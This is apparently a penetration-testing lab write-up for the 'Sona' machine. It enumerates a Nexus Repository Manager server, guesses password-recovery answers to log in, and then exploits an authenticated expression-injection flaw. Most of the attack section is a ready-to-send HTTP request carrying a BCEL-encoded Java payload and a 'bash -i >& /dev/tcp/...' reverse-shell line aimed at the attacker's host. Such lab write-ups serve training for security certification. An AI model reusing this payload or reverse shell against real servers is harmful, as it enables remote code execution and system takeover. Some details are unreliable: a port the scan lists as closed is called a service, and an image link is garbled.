 #### Enumeration

Nmap 

```
# Nmap 7.91 scan initiated Sat Aug 28 10:24:04 2021 as: nmap -Pn -p- -sV -sC -T4 -oN sona.nmap 192.168.220.159 

Nmap scan report for 192.168.220.159 

Host is up (0.21s latency). 

Not shown: 65533 filtered ports 

PORT     STATE  SERVICE VERSION 

23/tcp   closed telnet 

8081/tcp open   http    Jetty 9.4.18.v20190429 

| http-robots.txt: 2 disallowed entries  

|_/repository/ /service/ 

|_http-server-header: Nexus/3.21.1-01 (OSS) 

|_http-title: Nexus Repository Manager 

 

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 

# Nmap done at Sat Aug 28 10:30:44 2021 -- 1 IP address (1 host up) scanned in 400.28 seconds 
```

We find the NEXUS BACKUP MANAGER service on port 23.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sona/Screenshot%202021-09-19%20133902.png)

We can use the password recover function to try to guess the correct answers. The first answer is ```leo``` and the second answer is ```black```. We Combine these two answers to guess password. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Of. Sof_Sehave/Pic/Sona/Sona_2021.09.12_18h17m07s_002_.png)

After search we know the [exploit](https://www.exploit-db.com/exploits/49385) needs an authenticated account. So we have to login into website and getting the cookie data.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sona/Screenshot%202021-09-19%20153154.png)

Now, we use cookie information to change the value and add the shell back line setting in Burp Suite.

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Content-Length: 4842
Host: 192.168.88.159:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Nexus-UI: true
404: bash -i >& /dev/tcp/192.168.49.88/8081  0>&1
NX-ANTI-CSRF-TOKEN: 0.8796302472416133
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Origin: http://192.168.88.159:8081
Connection: close
Referer: http://192.168.88.159:8081/
Cookie: NX-ANTI-CSRF-TOKEN=0.8796302472416133; NXSESSIONID=57be5cd0-1f1f-4ead-b7ce-75a6ad393320

{
       "name": "internal",
       "online": true,
       "storage": {
           "blobStoreName": "default",
           "strictContentTypeValidation": true
        },
       "group": {
           "memberNames": ["${''.getClass().forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$eb$7f$UW$Z$7eN$b2$d9$99L$s$9bd6$9bd$A$xH$80M$80$5dJ$81$96$e5bC$K$e5$S$u$924$YR$ad$93eH$W6$3b$db$d9$d9$Q$d0j$d1Z$ea$adVQ$yj$d1R5$de5$a2$h$q$82h$V$b5$9f$fc$ea7$3f$f6$_$e0$83$3f$7f$8d$cf$99$dd$N$d9d$5b$fc$R$ce$ceyo$e7y$df$f3$3e$ef$cc$db$ef$de$bc$N$60$L$fe$a1$n$IGAVC$N$9cz$$$cfI$89$ab$m$a7$e2i$Nm$f04$e41$n$97$b3$w$s$a5$e4$9c$8a$f3$K$86U$7cR$c5$a74t$e0y$v$fd$b4$8a$cfhX$81$XT$5cP$f0Y$v$fa$9c$82$X5$7c$k$_$a9$b8$a8$e2e$F_P$f1E$V_R$f1e$F_Q$f1$8a$8a$afjx$V_$93$cb$d7$V$5cR$f0$N$N$df$c4e$Nk$f1$z$Nk$f0$9a$82$x$g$ba$e1$c8$cd$b7$e5$d3wT$7cW$fe$be$aea$r$ae$ca$e5$7b$K$be$af$e0$N$81$a07$e6$da$d6I$B$a3$ef$b45a$c5$d3Vf4$3e$e0$cbvP$bb3$95Iy$bb$Fj$a3$5d$83$C$81$5e$e7$a4$z$d0$d4$97$ca$d8G$f2$e3$p$b6$3b$60$8d$a4m$e9$ec$q$ad$f4$a0$e5$a6$e4$be$q$Mxc$a9$9c$40C$9f$3d$91J$c7$e5$c2$88$ea$ced$ba$U3$b4$df$f3$b2$bdN$sc$t$bd$94$93$RhY$A$a17m$e5r$b4o$Y$93Fc$W$ad$d2$95$m$9f$g9MGi$b2$7f$a1$89$e2$da$cf$e5$ed$9cG$f0cL$c2v$x$bd$fa$3d7$95$Z$95$40$5c$3b$97u29$C$N$9euS$9e4$8c$U$NSN$fc$u$ad$bc$e3$be$98$b6$b5$c9qV$u$3c$5c$zNM$969$86$Xh$8e$baN$d2$f6$b1$d7$8c0f$c7$7c$cc$3d$f9S$a7l$d7$3ey$cc$87$r$f5$b9$91y$fd$82$a0E$3b$ea$D$ac$94$84G$a4$f94$T$K$8d$z$wX$d0$f1k$m$a0$Xo$d1$bf$F$c21$X$c4t$edSi$da$c4$f7$a5$ec$b4$bc$d2$d0$C$d3$c3V$96$d8$x$F$y$fc$f9$f3$C$9a$t$_$d1wbM$8b$e7$e4$W$d5$60$fe$G4$3b$e3$b9$e7$fc$xcw$f8$9bA$x$9d$_$bb$b7Uv$c7$b9l$b9CZ$X_$f8$ce$ee$dd$M$d7$d8$efY$c93$c4$e2$9b$91U$K$ae$91$V$q$I$d9$40$S$u8$a8$e0M$bf$f5$af$94$fbX$ebw$f2n$92$t$ca$b8$f5$b2$d9b2$b6$8emx$b4$q$f0$5bP$t$7f$b7$ea$f8$B$7e$u$d0$bc$b8$e3u$fc$IS$3cL$c7$8f$f1$T$j$3f$c5$cf$E$3a$a5QL$g$c5$G$ee$X$aas$a0$a2h$3a$7e$8e_$I$d4y$c5$bc$ba$ff$l$9f$ce$bd$b2Nt$9a$90$a5$d2$f1K$fcJ$c7$af1$z$b0$ceqGc6y$92$cd$d9$b1$d3$b6$e7$9d$8b$e5lw$c2vc$95$8c$d1$f1$h$5c$e7$8d$8e$da$5e$F$F$9a$WUU$c7o$f1$bb$8at$8b7$a7$a0$a0c$G7X$3d$868V$e6M$bd$8cW$a2N$f3$e2$e6$q$Z$b6l$daB$d2$f9$ke$GI$97$e3$r$S$85$abp$88$W$f1$91T$s$3eb$e5$c6$d8$f7$h$93$K$7e$af$e3$sfu$fc$B$b7$d8$n$d59$c2N$$$x$Od$b2y$8f$Qlk$bc$a8c$H$e8$b8$8d$3f$ca$h$be$p$97$3f$95$c3$y$a1$92$8e$3fcZ$c7$5b$f8$8b$80$d0t$fcU$ee$ee$e2o$3a$fe$$$9bc$e5$7d$af$D$e9$b4$3dj$a5$7b$92$92$c1$7b$t$93v$b6H$b4$f0$7d$93$F$d2$f6$f7$60$Z$t$d9$92q$c0$aeN$e6$5d$97$dc$Y$u$N$dc$d6hW$b5$91$db$ccR$3e$c1$cb$b7X$85R$b4$8d$d1$a5$83$a7$eb$7d$u$de$98$b3$bdb$K$a9$e2$m$8e$9e$90$d3$bb$96$91$F$d6F$972$b8$ab$g$a9$95S$8e$7b$c4$g$a7$ff$9a$H$9c_$9e$d5$w$P$u$N$81p$b4$9a$81B$83b$c8$ca$e4$e7$87i$90$3d$e8O$b0H5$94$t$8a$8dv$d8$f6$c6$i$96$e5$f1$w$b0$86$97$9cZ$adP$c5$I$3c$af$e3$bdt$84$92$caL8g$Iu$7b$V$uU$a6$60$d5$g$$$e8$83c$f9$8c$97$92$a9$fb$5c$xo$o$Vu$u$89$e5$e8$b7$t$ed$a4$404Z$e5$9d$d3U$f5e$p$a7$c0$C$92$b0$3b$cb$a1$x$d9$p$b3$8eVU$c8$k$J$dfW$95$5eSR$aa$fas$ab$f82$b2$b2Y$3b$c3$falx$40S$yz$97$a9$9eS$k$mu$fe$ebv$d1$j$97$p$f0$b4$bad$da$c9$d9X$c5$ef$aa$m$bf$b7X19$b3$f9T$c3g$8es$ae$8fq$X$e7$af$e0o$5d$f7$M$c4$b4$af$de$ce5$e8$LU$q$b8$eaE$D$ec$c0N_$b6$ab$ec$i$e8$a4$dd2$c6$7es$W5C3$a8$bd$8e$c0$N$d4$j2$82$86R$80$da$b7$3eP$40$fd$fa$ee$C$b4$c3F$c3$N$e8G6$g$8d$94$t$Cf$40j$cc$c0$G$aa$ee$m$c4$bfD$9d$d1D$8bD$d0$M$g$cd$d2F1$V$df$a6$$$a1$9a$ea$edm$f5$b5$db$b4$88$W$a9$bf$s$b6$9ajD$db$9ch0$h$ee$8a$d5$a6b60FB7$f5$bb$a2$d9$d4$Lh$v$c00$c2$F$b4$5e$e1$d8$93$fbD$a3$d9hDjo$a1$ad$80vS$e7CG$Bf$od$86$a4$b2$c9l2$96$95$95$a1$b2$b2$d9$q$86$Wcy$80$8a$a1ZcE$bf$d46s$d7$c1$dd$H$b83$ef$60E$a2$85$be$P$z$f15LC$fa$7e$b0$ac0J$8a$3bX$99$I$Hoa$FC$ac$ea$l$K$Y$l$ea$l$aa3$5b$fa$T$ad7$b0$dal$z$a03$R$99$c5$9a$a1Y$ac$j2$p$F$ac$9bAt$G$5d$89$b6Yt$b3$b6$eb$T$ed$s$e3m$YJt$dcE$d8l7$Zs$a3$R$e3r$7cj$ee$j$b3$bd$80x$c24$c3$a6Y$c0$s$93$f9$3f$3c$85$ba$84$fe$a2$s$a6$de$7d$7b$K$81C$d3$bc$d8IqI$5c$c6fh$e2$aax$D$8f$m$e0_$f5U$ac$e3Z$cf$fehD$IM$fcxn$c6r$84$d99m$d4t$b0CL$f6$cdr$f4$e2$n$i$e4Go$3f5CX$8d$i$3a1$c9$af$e5$L$b4z$JQ$5cF$X$5e$c7z$5c$c7$G$be$93b$f8$t6$e1$k$k$W$3a6$8b$u$k$R$bb$b0E$3c$89$ad$e2$Zl$T6$k$TYl$X$_$60$87$b8$88$5d$e2$V$ec$W$97$d0Kt$3d$e25$ac$WW$b1$9f$I$f7$89k$3cQ$b6$e0$3bhg$ec$7b$d8$8d$P$T$e5u$fc$h$8f$a3$87ho$e2_$d8CY$TO$7b$8b$I$7b$88$fd$k$z$9f$c0$5e$b4$f0$e4$8b$d8G$99$c1$f3$cf$e0I$ecG$98$u$Gq$80Q$5b$89$a5$P$87$f8$3fBD$8f$e20$8e$a0$8d$b8bx$KG$d1$$$c6$99$d9G$Y$a5$83$f8t$i$e3$93$89$L$c2$60$f6$3d$dc$e7$c4$g$M$f0$a9$B$n$f1j$89Wm$e2e$3c$cd$e8$C$ab$c4$f38Nm$N$d6$89$b3$f8$u$f1$d5$o$$$iVm$905$ef$V$c38$81a$S$ea$a0$Y$c03$d4$G$d1$_$O$e1c$d4$w$f8$b8$8cD$cfb$b6$cf2$dbb$8e$cf2$c7OP7$8d$fa9$d8hP$60$v$YQ$c0o$80$93$feCh$feA$90$aes$fc$d7$f1$be6$be$b8$a8$99_m$7f$3d$a5$60T$c1$98$82$94$82$d3$c0$7f$b1$8c$9a9$Y$d0$l$U$Q$d8$a3$e0$cc$7f$m$e6$98$j$fc$5dZ$8e$9eq$7f$aed$fe$H$c3$e0$Q$5e$fb$N$A$A').newInstance()}"]
        }
}
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sona/Sona%2C%20September%2019%2C%202021_15h55m25s.png)




